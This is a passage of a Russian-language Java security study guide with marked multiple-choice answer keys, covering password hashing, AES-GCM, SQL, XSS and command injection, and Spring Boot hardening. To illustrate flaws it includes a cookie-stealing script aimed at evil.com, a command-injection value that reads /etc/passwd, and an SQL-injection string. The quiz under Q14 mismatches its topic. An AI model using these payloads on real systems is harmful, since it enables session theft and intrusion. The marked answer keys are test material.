> - [ ] Cryptographic Failures (A02:2021) охватывает слабые алгоритмы; BCrypt является рекомендованным алгоритмом для шифрования данных at rest, поскольку он медленный и устойчив к атакам. | BCrypt — алгоритм для хэширования паролей, а не для шифрования данных at rest. Хэширование необратимо (нельзя расшифровать), а шифрование данных at rest требует обратимого алгоритма (AES-256-GCM) с управляемыми ключами.

## Q9. Как правильно хранить пароли в Java-приложении?

Единственный правильный подход — **adaptive hashing** с уникальной солью:

```java
@Configuration
public class PasswordConfig {

    @Bean
    public PasswordEncoder passwordEncoder() {
        // BCrypt с cost factor 12 (~250ms на хэширование)
        return new BCryptPasswordEncoder(12);
    }
}

@Service
@RequiredArgsConstructor
public class UserService {

    private final PasswordEncoder passwordEncoder;
    private final UserRepository userRepository;

    public void registerUser(String username, String rawPassword) {
        // Пароль хэшируется с уникальной солью
        String encoded = passwordEncoder.encode(rawPassword);
        // encoded = "$2a$12$LJ3m4ys..." — содержит алгоритм, cost, соль и хэш
        userRepository.save(new User(username, encoded));
    }

    public boolean authenticate(String username, String rawPassword) {
        User user = userRepository.findByUsername(username)
                .orElseThrow(() -> new BadCredentialsException("Invalid credentials"));
        // matches() извлекает соль из хэша и сравнивает
        return passwordEncoder.matches(rawPassword, user.getPassword());
    }
}
```

Для новых проектов рекомендуется `Argon2` — победитель `Password Hashing Competition`:
```java
@Bean
public PasswordEncoder passwordEncoder() {
    return new Argon2PasswordEncoder(16, 32, 1, 65536, 3);
    // saltLength=16, hashLength=32, parallelism=1, memory=64MB, iterations=3
}
```

> [!mcq]
> - [ ] Пароли правильно хранить через SHA-256 с солью: быстрый алгоритм позволяет быстро проверять логины, а уникальная соль защищает от rainbow tables. | SHA-256 быстрый — это и есть проблема. GPU перебирает миллиарды SHA-256/сек, соль лишь устраняет rainbow tables, но не замедляет brute force. Для паролей нужен adaptive hashing (BCrypt/Argon2) с намеренным замедлением.
> - [ ] Пароли правильно хранить через симметричное шифрование AES-256 с ключом в KeyStore: это позволяет при необходимости восстановить пароль пользователя. | Пароли нельзя шифровать: шифрование обратимо, и при компрометации ключа все пароли раскрываются. Кроме того, восстановление пароля — неправильный паттерн (reset через email предпочтительнее). Правильный подход — необратимое хэширование (BCrypt/Argon2).
> - [x] Пароли правильно хранить через adaptive hashing — BCrypt (cost factor 12) или Argon2 (memory-hard); алгоритм содержит уникальную соль, намеренно замедлен (100-500 мс) и устойчив к GPU/ASIC-атакам. | Верная стратегия. BCrypt — проверенный временем выбор; Argon2 — победитель Password Hashing Competition с защитой от memory-hard атак. Cost factor/параметры настраиваются по железу: работа должна занимать 100-500 мс.
> - [ ] Пароли правильно хранить через MD5 с солью длиной 32 байта: длинная соль компенсирует скорость MD5 и делает brute force невозможным. | MD5 устарел: имеет коллизии и невероятно быстрый (триллионы хэшей/сек на GPU). Длина соли не влияет на скорость brute force — злоумышленник знает соль (она хранится рядом с хэшем). Нужен adaptive hashing, а не быстрый алгоритм.

## Q10. Как правильно использовать AES-GCM для шифрования данных?

`AES-GCM` — authenticated encryption, обеспечивает и конфиденциальность, и целостность данных:

```java
public class AesGcmEncryptor {

    private static final String ALGORITHM = "AES/GCM/NoPadding";
    private static final int IV_LENGTH = 12;   // 96 bit для GCM
    private static final int TAG_LENGTH = 128;  // authentication tag

    public byte[] encrypt(byte[] plaintext, SecretKey key) throws Exception {
        // КРИТИЧНО: каждый раз новый IV
        byte[] iv = new byte[IV_LENGTH];
        SecureRandom.getInstanceStrong().nextBytes(iv);

        Cipher cipher = Cipher.getInstance(ALGORITHM);
        cipher.init(Cipher.ENCRYPT_MODE, key, new GCMParameterSpec(TAG_LENGTH, iv));

        byte[] ciphertext = cipher.doFinal(plaintext);

        // Склеиваем IV + ciphertext для хранения
        ByteBuffer buffer = ByteBuffer.allocate(IV_LENGTH + ciphertext.length);
        buffer.put(iv);
        buffer.put(ciphertext);
        return buffer.array();
    }

    public byte[] decrypt(byte[] encrypted, SecretKey key) throws Exception {
        ByteBuffer buffer = ByteBuffer.wrap(encrypted);

        byte[] iv = new byte[IV_LENGTH];
        buffer.get(iv);

        byte[] ciphertext = new byte[buffer.remaining()];
        buffer.get(ciphertext);

        Cipher cipher = Cipher.getInstance(ALGORITHM);
        cipher.init(Cipher.DECRYPT_MODE, key, new GCMParameterSpec(TAG_LENGTH, iv));

        return cipher.doFinal(ciphertext); // бросит AEADBadTagException при tamper
    }
}
```

Главные правила:
- **Никогда** не переиспользовать `IV` с одним и тем же ключом — это полностью ломает `GCM`
- Хранить ключи в `Vault` / `KMS`, **не** в коде или конфиге
- Использовать `SecureRandom.getInstanceStrong()` для генерации `IV`
- Рассмотреть `Google Tink` — высокоуровневая обёртка, которая исключает типичные ошибки

> [!mcq]
> - [x] AES-GCM требует уникального IV (nonce) для каждого шифрования одним и тем же ключом; IV генерируется через SecureRandom (12 байт), сохраняется вместе с ciphertext; переиспользование IV полностью ломает конфиденциальность GCM. | Верное описание. AES-GCM — AEAD (authenticated encryption): обеспечивает конфиденциальность и целостность. Переиспользование IV в GCM катастрофично: XOR двух ciphertext раскрывает plaintext (так сломали WEP). Хранить ключи нужно в Vault/KMS.
> - [ ] AES-GCM позволяет использовать статический IV для ускорения шифрования, так как аутентификационный тег защищает от tamper независимо от IV. | Это критическая ошибка. Статический IV в GCM ломает конфиденциальность — две шифровки одним ключом и IV дают predictable keystream. Аутентификационный тег защищает от tamper, но не от утечки plaintext через XOR ciphertext.
> - [ ] AES-GCM — режим без аутентификации, поэтому требует дополнительного HMAC-SHA256 для обеспечения целостности данных; без HMAC ciphertext можно безопасно tampering. | AES-GCM — это именно AEAD (Authenticated Encryption with Associated Data): целостность встроена через authentication tag (128 бит). Дополнительный HMAC избыточен. Попытка тампер ciphertext вызовет AEADBadTagException при decrypt.
> - [ ] AES-GCM требует фиксированного IV длиной 16 байт (128 бит) для совместимости с AES-CBC и корректной работы аутентификационного тега. | Рекомендуемая длина IV для GCM — 12 байт (96 бит), а не 16. 12 байт оптимизированы для GCM (без дополнительной обработки). 16 байт возможны, но теряется производительность. IV должен быть уникальным, а не фиксированным.

---

## Q11. (!) Какие виды Injection-атак существуют и как от них защищаться?

`Injection` (`A03:2021`) — когда недоверенный ввод попадает в интерпретатор без безопасной обработки. Основные виды:



**Универсальные принципы защиты:**

1. **Параметризованные запросы** — для SQL, LDAP, NoSQL
2. **Валидация на входе** — whitelist допустимых символов/форматов
3. **Экранирование на выходе** — контекстно-зависимое (HTML, JS, URL, CSS)
4. **Принцип минимальных привилегий** — DB-пользователь не должен иметь `DROP` права
5. **WAF** — дополнительный слой, но не замена правильного кода

> [!mcq]
> - [ ] Injection (A03:2021) включает только SQL Injection; XSS, LDAP Injection и Command Injection — отдельные категории OWASP и требуют разной защиты. | В 2021 году XSS вошёл в Injection как подтип (HTML/JS Injection). LDAP Injection и Command Injection также относятся к A03. Принципы защиты общие: параметризация, whitelist-валидация, контекстное экранирование. В 2017 XSS был отдельной категорией (A07), но в 2021 его объединили с Injection.
> - [x] Injection (A03:2021) — общий класс атак, когда недоверенный ввод попадает в интерпретатор; включает SQL/NoSQL/LDAP/Command Injection, XSS, SSTI, EL Injection; общий принцип защиты — параметризация, whitelist-валидация, контекстное экранирование. | Верное описание. Все виды Injection имеют общий root cause (смешение кода и данных) и общие принципы защиты. XSS вошёл в A03 в 2021 году. WAF — дополнительный слой, но не замена правильного кода с параметризацией.
> - [ ] Injection (A03:2021) защищается исключительно через WAF на уровне инфраструктуры; код приложения не должен учитывать injection, так как это ответственность security-команды. | WAF — последняя линия защиты, которая ловит известные паттерны, но обходится через кодировки и новые техники. Основная защита — в коде: параметризованные запросы, валидация, экранирование. Разработчик не может делегировать injection security-команде.
> - [ ] Injection (A03:2021) защищается только валидацией ввода через регулярные выражения (whitelist); параметризованные запросы и экранирование применять не нужно, если валидация достаточно строгая. | Whitelist-валидация не заменяет параметризацию: regex трудно покрыть все легитимные данные (имена с апострофами, UTF-8, Unicode). Параметризация — основная защита, так как отделяет код от данных на уровне интерпретатора. Валидация — дополнительный слой.

## Q12. (!) Как SQL Injection работает через Spring Data JPA и JDBC?

`Spring Data JPA` защищает от SQL Injection **по умолчанию**, если использовать derived queries или именованные параметры. Но есть ловушки:

**Уязвимый код — конкатенация в нативном запросе:**
```java
// ОПАСНО: прямая конкатенация в native query
@Query(value = "SELECT * FROM users WHERE username = '" + username + "'", 
       nativeQuery = true)
List<User> findByUsername(String username);
// Атака: username = "' OR '1'='1' --"
```

**Уязвимый код — JDBC без параметров:**
```java
// ОПАСНО: конкатенация строк
String sql = "SELECT * FROM users WHERE username = '" + username 
           + "' AND password = '" + password + "'";
jdbcTemplate.queryForList(sql);
```

**Безопасный код — параметризованные запросы:**
```java
// JPA — derived query (безопасно)
Optional<User> findByUsername(String username);

// JPA — именованный параметр (безопасно)
@Query("SELECT u FROM User u WHERE u.username = :username")
Optional<User> findUser(@Param("username") String username);

// JDBC — placeholder (безопасно)
String sql = "SELECT * FROM users WHERE username = ? AND status = ?";
jdbcTemplate.query(sql, rowMapper, username, status);

// NamedParameterJdbcTemplate (безопасно)
String sql = "SELECT * FROM users WHERE username = :username";
MapSqlParameterSource params = new MapSqlParameterSource("username", username);
namedJdbcTemplate.query(sql, params, rowMapper);
```

**Особый случай — динамические ORDER BY / table names:**
```java
// Нельзя параметризовать ORDER BY — нужен whitelist
private static final Set<String> ALLOWED_SORT = Set.of("name", "created_at", "email");

public List<User> findSorted(String sortColumn) {
    if (!ALLOWED_SORT.contains(sortColumn)) {
        throw new IllegalArgumentException("Invalid sort column");
    }
    // Безопасно: значение из whitelist
    return jdbcTemplate.query("SELECT * FROM users ORDER BY " + sortColumn, rowMapper);
}
```

> [!mcq]
> - [ ] Spring Data JPA полностью защищает от SQL Injection: любой @Query автоматически безопасен, независимо от конкатенации строк или использования nativeQuery. | Spring Data JPA безопасен ТОЛЬКО при использовании derived queries (findByUsername) или именованных параметров (:username). Конкатенация в @Query — SQL Injection: `@Query("SELECT * FROM users WHERE name = '" + name + "'")` уязвим так же, как чистый JDBC.
> - [x] Spring Data JPA безопасен при использовании derived queries (Optional<User> findByUsername(String)) и именованных параметров (@Query с :param); конкатенация в @Query — уязвимость; nativeQuery тоже требует параметров; ORDER BY/table names — через whitelist. | Верная стратегия. Параметризация отделяет код от данных на уровне JDBC-драйвера. Для ORDER BY параметризация невозможна (СУБД не принимает placeholder для имен колонок), поэтому whitelist допустимых значений — единственный безопасный подход.
> - [ ] JDBC через jdbcTemplate.queryForList("... WHERE id = " + userId) безопасен, если userId типа Long — числовые параметры не позволяют SQL Injection через конкатенацию. | Даже Long может быть вектором при неправильном типе или преобразовании. Принципиальная ошибка — полагаться на тип: SQL-driver не знает о типе при конкатенации. Правильно — всегда использовать placeholder: jdbcTemplate.query(sql, rowMapper, userId).
> - [ ] Защита от SQL Injection через JPA достигается автоматически после применения аннотации @Transactional на методе; транзакционные методы автоматически экранируют SQL. | @Transactional контролирует транзакции (ACID), но не защищает от SQL Injection. Защита — параметризация запросов на уровне JDBC-драйвера, которая работает независимо от транзакций. @Transactional с конкатенацией SQL остаётся уязвимым.

## Q13. Что такое XSS и как от него защищаться на бэкенде?

`XSS` (`Cross-Site Scripting`) — инъекция вредоносного JavaScript в страницы, которые видят другие пользователи. Бэкенд-разработчик отвечает за:

**Stored XSS — сохранённый вредоносный ввод:**
```java
// ОПАСНО: HTML из пользовательского ввода сохраняется как есть
@PostMapping("/api/comments")
public Comment createComment(@RequestBody CommentRequest request) {
    Comment comment = new Comment();
    comment.setText(request.getText()); // "<script>fetch('evil.com?c='+document.cookie)</script>"
    return commentRepository.save(comment);
}
```

**Защита на бэкенде:**
```java
@PostMapping("/api/comments")
public Comment createComment(@RequestBody @Valid CommentRequest request) {
    Comment comment = new Comment();
    // Санитизация HTML — удаляет опасные теги, оставляет безопасные
    String sanitized = Jsoup.clean(request.getText(), Safelist.basic());
    comment.setText(sanitized);
    return commentRepository.save(comment);
}
```

**Security headers** как дополнительный слой:
```java
// Content-Security-Policy предотвращает inline-скрипты
http.headers(headers -> headers
    .contentSecurityPolicy(csp -> csp
        .policyDirectives("default-src 'self'; script-src 'self'; style-src 'self'"))
    .xssProtection(xss -> xss.headerValue(XXssProtectionHeaderWriter.HeaderValue.ENABLED_MODE_BLOCK))
);
```

> [!mcq]
> - [ ] XSS — это атака на серверную базу данных через пользовательский ввод; защита — параметризованные SQL-запросы через PreparedStatement. | Описание путает XSS с SQL Injection. XSS — это инъекция вредоносного JavaScript в HTML-страницы, которые видят другие пользователи (атака на браузер клиента). Параметризованные запросы защищают от SQL Injection, но не от XSS.
> - [x] XSS — инъекция вредоносного JavaScript в HTML-страницы, видимые другим пользователям; защита на бэкенде: санитизация HTML через Jsoup с Safelist + Content-Security-Policy header + контекстное экранирование на выходе. | Верное описание. Бэкенд отвечает за санитизацию сохраняемого контента (stored XSS) и за установку CSP-заголовков. Безопасная санитизация сохраняет допустимые теги (<b>, <i>) и убирает опасные (<script>, on* атрибуты). CSP — defense in depth.
> - [ ] XSS — это атака через подмену HTTP-заголовков; защита — Content-Security-Policy header, который блокирует любые внешние ресурсы и входящие заголовки. | XSS — это инъекция JavaScript в контент, не атака через заголовки. CSP блокирует не входящие заголовки, а загрузку скриптов/ресурсов в браузере (из inline-кода или чужих origin). Защита строится на санитизации ввода, а не на блокировке заголовков.
> - [ ] XSS защищается исключительно установкой HttpOnly-флага на cookies; санитизация контента и CSP избыточны при правильной конфигурации cookie. | HttpOnly защищает cookies от кражи через document.cookie, но не от XSS-атаки как таковой: вредоносный JS может выполнять действия от имени пользователя (keylogger, phishing, CSRF-обход). Санитизация и CSP — обязательные меры.

## Q14. Что такое Command Injection и как его предотвратить?

`Command Injection` — выполнение произвольных команд ОС через пользовательский ввод:

**Уязвимый код:**
```java
// ОПАСНО: конкатенация в Runtime.exec()
@GetMapping("/api/ping")
public String ping(@RequestParam String host) {
    Process p = Runtime.getRuntime().exec("ping -c 1 " + host);
    // Атака: host = "8.8.8.8; cat /etc/passwd"
    return readOutput(p);
}
```

**Исправленный код:**
```java
private static final Pattern HOSTNAME_PATTERN = Pattern.compile("^[a-zA-Z0-9][a-zA-Z0-9.-]{0,253}$");

@GetMapping("/api/ping")
public String ping(@RequestParam String host) {
    // 1. Whitelist-валидация формата
    if (!HOSTNAME_PATTERN.matcher(host).matches()) {
        throw new IllegalArgumentException("Invalid hostname");
    }
    
    // 2. ProcessBuilder — аргументы передаются как отдельные элементы (не через shell)
    ProcessBuilder pb = new ProcessBuilder("ping", "-c", "1", "-W", "3", host);
    pb.redirectErrorStream(true);
    Process p = pb.start();
    
    // 3. Таймаут
    if (!p.waitFor(5, TimeUnit.SECONDS)) {
        p.destroyForcibly();
        throw new TimeoutException("Ping timed out");
    }
    return readOutput(p);
}
```

Ключевое: **`ProcessBuilder`** с массивом аргументов **не запускает shell**, поэтому `;`, `|`, `&&` не интерпретируются.

> [!mcq]
> - [ ] SQL Injection предотвращается валидацией пользовательского ввода с помощью регулярных выражений на входе; параметризованные запросы применяются только для динамических ORDER BY. | Regex-валидация на входе — ненадёжная защита: невозможно учесть все варианты вредоносного ввода, особенно с учётом кодировок. Параметризованные запросы — основная защита для всех SQL-параметров; только для ORDER BY/имён таблиц нужен whitelist.
> - [ ] SQL Injection предотвращается параметризованными запросами (PreparedStatement); в Spring Data JPA все JPQL-запросы автоматически безопасны, включая запросы с конкатенацией строк в @Query. | Строковая конкатенация в @Query так же уязвима, как и в чистом SQL: `"SELECT u FROM User u WHERE u.name = '" + name + "'"` — это SQL Injection в JPQL. @Query безопасен только с именованными параметрами (:name) или positional (?1).
> - [x] SQL Injection предотвращается параметризованными запросами (PreparedStatement, @Query с :param); для динамических ORDER BY и имён таблиц нужен whitelist из допустимых значений, так как их нельзя параметризовать. | Верная стратегия. PreparedStatement отделяет код от данных на уровне драйвера. ORDER BY/table names — специальный случай: СУБД не позволяет параметризовать имена объектов, поэтому обязателен whitelist допустимых значений.
> - [ ] SQL Injection предотвращается параметризованными запросами; нативные @Query(nativeQuery=true) в Spring Data автоматически эскейпируют ввод на уровне Hibernate, делая параметры ненужными. | Нативные @Query не эскейпируют ввод автоматически. При конкатенации строк в nativeQuery уязвимость SQL Injection сохраняется так же, как в чистом JDBC. Именованные параметры (:param) обязательны и для нативных запросов.

---

## Q15. (!) Чем Insecure Design отличается от implementation-багов?

`Insecure Design` (`A04:2021`) — **новая категория** в 2021, подчёркивающая разницу между **дизайном** и **реализацией**:

| Insecure Design | Implementation Bug |
|---|---|
| Архитектура не предусматривает защиту | Защита предусмотрена, но реализована с ошибкой |
| Нельзя исправить лучшим кодом | Можно исправить фиксом конкретного бага |
| Пример: нет rate limit на API восстановления пароля | Пример: rate limit есть, но обходится через заголовок |
| Обнаруживается через threat modeling | Обнаруживается через SAST/DAST/пентест |

**Пример insecure design** — кинотеатр без лимита на бронирование:
```java
// Дизайн: пользователь может забронировать неограниченное количество мест
// Даже идеальная реализация не спасёт от ботов, скупающих все билеты
@PostMapping("/api/bookings")
public Booking createBooking(@RequestBody BookingRequest request) {
    return bookingService.book(request); // Нет лимитов, нет CAPTCHA
}
```

**Secure design:**
```java
@PostMapping("/api/bookings")
@RateLimiter(name = "bookingApi")
public Booking createBooking(@RequestBody @Valid BookingRequest request,
                             @AuthenticationPrincipal UserDetails user) {
    // Бизнес-правило: макс. 10 мест на сеанс на пользователя
    int existing = bookingRepository.countByUserAndSession(user.getId(), request.getSessionId());
    if (existing + request.getSeatCount() > 10) {
        throw new BusinessRuleException("Maximum 10 seats per session");
    }
    return bookingService.book(request, user);
}
```

> [!mcq]
> - [ ] Insecure Design (A04:2021) — то же самое, что implementation-баги; разница только в масштабе: дизайн-проблемы затрагивают всё приложение, а баги — отдельные функции. | Это разные категории проблем. Insecure Design — архитектура не предусматривает защиту (нет rate limit в дизайне, нет лимита бронирования). Implementation bug — защита предусмотрена, но реализована с ошибкой. Insecure Design нельзя починить лучшим кодом — нужен редизайн.
> - [ ] Insecure Design (A04:2021) обнаруживается только через SAST/DAST-сканеры; threat modeling — избыточный процесс, который не находит реальных проблем дизайна. | Наоборот: SAST/DAST находят implementation-баги в существующем коде, но не insecure design (отсутствие контроля в архитектуре). Threat modeling — ключевой инструмент для обнаружения insecure design: анализ dataflow и угроз до реализации.
> - [x] Insecure Design (A04:2021) — архитектурный недостаток, который нельзя исправить лучшей реализацией; обнаруживается через threat modeling, а не SAST/DAST; пример: API бронирования без бизнес-лимитов на количество мест. | Верное разграничение. Пример: rate limit есть, но обходится через заголовок — это implementation bug. Нет rate limit в принципе — insecure design. Исправление требует пересмотра архитектуры: добавление лимитов, CAPTCHA, threat model.
> - [ ] Insecure Design (A04:2021) относится только к UX-дизайну интерфейсов; бэкенд-разработчиков эта категория не касается, так как они не занимаются дизайном. | Insecure Design — это архитектурный дизайн системы (threat model, контроль доступа, лимиты), а не UX. Эта категория касается в первую очередь бэкенд-разработчиков и архитекторов: именно они принимают решения о защитных механизмах в коде.

## Q16. Что такое threat modeling и как его применять?

`Threat modeling` — систематический анализ потенциальных угроз для системы **до начала реализации**. Самая популярная методология — **`STRIDE`**:



**Практический процесс:**
1. **Нарисовать DFD** (Data Flow Diagram) — компоненты, потоки данных, trust boundaries
2. **Применить STRIDE** к каждому элементу DFD
3. **Оценить риск** — likelihood × impact
4. **Определить mitigations** — конкретные контрмеры
5. **Задокументировать** — threat model живёт с проектом и обновляется

> Threat modeling — это задача **разработчика**, не только security-команды. Разработчик лучше знает архитектуру и dataflow системы.

> [!mcq]
> - [x] Threat modeling — систематический анализ угроз до реализации через методологию STRIDE (Spoofing, Tampering, Repudiation, Information Disclosure, DoS, Elevation of Privilege) поверх DFD-диаграммы. | Верное описание. STRIDE — наиболее распространённая методология от Microsoft. Процесс: нарисовать DFD → применить STRIDE к каждому элементу → оценить риск → определить mitigations. Threat model живёт с проектом и обновляется при изменениях.
> - [ ] Threat modeling применяется после релиза через пентест; до релиза архитектурный анализ угроз невозможен, так как нет работающего кода для тестирования. | Threat modeling применяется именно до реализации (на этапе дизайна). Анализ идёт по DFD-диаграммам, а не по работающему коду. Пентест — отдельная активность после релиза, которая находит implementation-баги, а не архитектурные проблемы.
> - [ ] Threat modeling использует методологию CVSS (Common Vulnerability Scoring System) для категоризации угроз по severity; STRIDE устарел и не применяется в современной разработке. | CVSS — это система оценки severity конкретных уязвимостей (CVE), а не методология анализа угроз. STRIDE — актуальная методология для threat modeling (также используются PASTA, LINDDUN, OCTAVE). STRIDE продолжает активно применяться в Microsoft SDL и других SDLC-процессах.
> - [ ] Threat modeling — это задача только security-команды; разработчики должны лишь получать список требований безопасности от security-архитекторов. | Threat modeling — это задача команды разработки, а не только security. Разработчики лучше знают архитектуру и dataflow, поэтому эффективно находят угрозы. Security-команда помогает с методологией и консультирует, но не заменяет разработчиков в анализе.

## Q17. Какие secure design patterns должен знать Java-разработчик?

Ключевые паттерны безопасного дизайна:

**1. Defense in Depth** — несколько уровней защиты (подробнее в Q39):
```java
// Уровень 1: авторизация на URL
// Уровень 2: @PreAuthorize на методе
// Уровень 3: проверка ownership в сервисе
// Уровень 4: Row Level Security в БД
```

**2. Fail-Safe Defaults** — по умолчанию запрещено:
```java
public boolean hasPermission(String user, String resource) {
    // Если нет явного разрешения — запрет
    return permissions.getOrDefault(user, Set.of()).contains(resource);
}
```

**3. Complete Mediation** — каждый запрос проверяется:
```java
// Фильтр безопасности выполняется при КАЖДОМ запросе, не кэшируется
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    // Spring Security по умолчанию проверяет каждый запрос
    http.authorizeHttpRequests(auth -> auth.anyRequest().authenticated());
    return http.build();
}
```

**4. Least Privilege** — минимальные права:
```java
// БД-пользователь приложения — только SELECT/INSERT/UPDATE
// Миграции Flyway — отдельный пользователь с DDL правами
```

**5. Input validation at trust boundary:**
```java
// Валидация на входе в систему, не глубоко внутри
@PostMapping("/api/orders")
public Order createOrder(@RequestBody @Valid OrderRequest request) { ... }
```

> [!mcq]
> - [ ] Fail-Safe Defaults означает, что по умолчанию всё разрешено, а запреты настраиваются явно; это упрощает разработку и снижает количество конфигурационных ошибок. | Это противоположно Fail-Safe Defaults. Принцип гласит: по умолчанию ЗАПРЕЩЕНО, разрешения настраиваются явно. «Permit-by-default» ведёт к уязвимостям при забытых эндпоинтах (новые контроллеры, actuator).
> - [x] Defense in Depth — несколько независимых уровней защиты (URL-авторизация, @PreAuthorize, ownership-проверка в сервисе, RLS в БД); Least Privilege — минимальные права у каждого компонента; Fail-Safe Defaults — запрет по умолчанию. | Верное описание ключевых паттернов. Defense in Depth: при пробитии одного слоя остальные всё ещё защищают. Least Privilege: DB-пользователь без DROP, отдельные accounts для миграций. Complete Mediation: проверка при каждом запросе.
> - [ ] Complete Mediation означает кэширование результатов авторизационных проверок для ускорения; фильтр безопасности запускается один раз на сессию. | Это противоречит Complete Mediation. Принцип требует проверки каждого запроса без кэширования результатов — кэш устаревает при изменении прав. Spring Security по умолчанию проверяет каждый запрос через SecurityFilterChain.
> - [ ] Least Privilege применяется только к пользователям системы, но не к компонентам приложения; сервисы и БД-пользователи должны иметь полные административные права для упрощения администрирования. | Least Privilege применяется ко ВСЕМ субъектам: пользователям, сервисам, БД-пользователям, процессам. DB-пользователь приложения — только SELECT/INSERT/UPDATE. Миграции Flyway — отдельный пользователь с DDL. Админ-права для сервисов увеличивают blast radius при компрометации.

---

## Q18. (!) Какие типичные ошибки конфигурации безопасности встречаются в Spring Boot?

`Security Misconfiguration` (`A05:2021`) — одна из самых частых причин инцидентов. Типичные проблемы в `Spring Boot`:

| Ошибка | Риск | Исправление |
|--------|------|-------------|
| `Actuator` эндпоинты открыты | Утечка env-переменных, секретов | `management.endpoints.web.exposure.include=health,info` |
| `H2 Console` в проде | Прямой доступ к БД | `spring.h2.console.enabled=false` в prod-профиле |
| `Swagger UI` в проде | Раскрытие API-контракта | Отключать через профиль |
| `CORS: allowedOrigins("*")` | Доступ с любого домена | Явный whitelist origin-ов |
| Дефолтные credentials | Полный доступ | Генерация уникальных паролей |
| `server.error.include-stacktrace=always` | Утечка внутренней структуры | `never` в проде |
| Debug-логирование в проде | Утечка данных через логи | `INFO` уровень в проде |

**Пример проблемы — Actuator:**
```yaml
# ОПАСНО: все actuator эндпоинты открыты
management:
  endpoints:
    web:
      exposure:
        include: "*"  # /actuator/env покажет секреты!
```

**Безопасная конфигурация:**
```yaml
management:
  endpoints:
    web:
      exposure:
        include: health,info,prometheus
      base-path: /internal  # не /actuator
  endpoint:
    health:
      show-details: when-authorized
    env:
      enabled: false  # отключаем полностью
```

> [!mcq]
> - [ ] Security Misconfiguration (A05:2021) — только ошибки в коде приложения: забытые @PreAuthorize, неправильные regex-валидаторы, open redirect в контроллерах. | Это ошибки реализации (implementation), а не misconfiguration. Security Misconfiguration охватывает ошибки КОНФИГУРАЦИИ: открытые actuator-эндпоинты, H2 Console в проде, CORS: "*", дефолтные credentials, include-stacktrace=always, debug-логи в проде.
> - [x] Security Misconfiguration (A05:2021) в Spring Boot включает: открытые actuator-эндпоинты (management.endpoints.web.exposure.include=*), H2 Console/Swagger в проде, CORS allowedOrigins("*"), дефолтные credentials, include-stacktrace=always. | Верный список. /actuator/env раскрывает env-переменные (секреты!), H2 Console даёт прямой доступ к БД, стектрейсы раскрывают внутреннюю структуру. Решение — explicit whitelist exposure, профили (dev/prod), генерация уникальных паролей при деплое.
> - [ ] Security Misconfiguration в Spring Boot решается только профилем production: server.profiles.active=prod автоматически отключает все небезопасные настройки (Swagger, H2, debug). | Профиль prod — это только механизм активации конфигурации. Сами безопасные настройки нужно явно прописать в application-prod.yml. Spring Boot не «знает», что именно считать небезопасным в конкретном проекте, поэтому автоматических отключений нет.
> - [ ] Security Misconfiguration (A05:2021) включает только уязвимости в конфиге сервера Tomcat/Netty; Spring Boot и его конфигурация к этой категории не относятся. | Spring Boot application.yml — это прямая область Security Misconfiguration. Actuator-эндпоинты, CSP-настройки, CORS, session management — всё это конфигурация Spring Boot, относящаяся к A05. Сервер приложений — лишь часть широкой категории.

## Q19. Как правильно настроить security headers?

Security headers — дешёвый и эффективный слой защиты. В `Spring Security`:

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http.headers(headers -> headers
        // Запрет embedding в iframe (clickjacking)
        .frameOptions(frame -> frame.deny())
        // Запрет MIME-sniffing
        .contentTypeOptions(Customizer.withDefaults())
        // HSTS — принудительный HTTPS
        .httpStrictTransportSecurity(hsts -> hsts
            .includeSubDomains(true)
            .maxAgeInSeconds(31536000))
        // CSP — контроль загружаемых ресурсов
        .contentSecurityPolicy(csp -> csp
            .policyDirectives("default-src 'self'; script-src 'self'; " +
                              "style-src 'self' 'unsafe-inline'; img-src 'self' data:"))
        // Referrer Policy
        .referrerPolicy(referrer -> referrer
            .policy(ReferrerPolicyHeaderWriter.ReferrerPolicy.STRICT_ORIGIN_WHEN_CROSS_ORIGIN))
        // Permissions Policy
        .permissionsPolicy(permissions -> permissions
            .policy("camera=(), microphone=(), geolocation=()"))
    );
    return http.build();
}
```

Проверить headers можно через [securityheaders.com](https://securityheaders.com/).

> [!mcq]
> - [x] Обязательные security headers: Content-Security-Policy (контроль загружаемых ресурсов), X-Frame-Options (clickjacking), X-Content-Type-Options: nosniff (MIME-sniffing), Strict-Transport-Security (HSTS), Referrer-Policy. | Верный список. CSP — самый мощный слой защиты от XSS (default-src 'self'). X-Frame-Options: DENY предотвращает clickjacking через iframe. HSTS принуждает HTTPS. nosniff запрещает браузеру «угадывать» MIME. В Spring Security большинство настраивается через http.headers().
> - [ ] Основной security header — X-XSS-Protection: 1; mode=block; он единственный необходим для защиты от XSS в современных браузерах. | X-XSS-Protection устарел: современные браузеры (Chrome 78+, Firefox, Edge) удалили эту защиту. Защита от XSS строится на CSP (Content-Security-Policy), а не X-XSS-Protection. Заголовок остаётся для legacy-браузеров, но не является основным.
> - [ ] Security headers — это только рекомендация; браузеры сами решают, применять их или игнорировать, поэтому надёжнее полагаться на WAF. | Security headers — это стандарт, поддерживаемый всеми современными браузерами. Браузер обязан применять CSP, HSTS, X-Frame-Options и т. д. Это дешёвый и эффективный слой защиты, который работает на клиенте. WAF — дополнительный слой, не замена.
> - [ ] Достаточно установить только Strict-Transport-Security (HSTS); остальные headers (CSP, X-Frame-Options) избыточны при правильно настроенном TLS. | HSTS защищает от downgrade к HTTP, но не от XSS, clickjacking и MIME-sniffing. Это разные уровни защиты: HSTS работает на транспорте, CSP — на контенте. Отсутствие CSP и X-Frame-Options оставляет приложение уязвимым независимо от TLS.

## Q20. Как разделить конфигурацию между dev и prod?

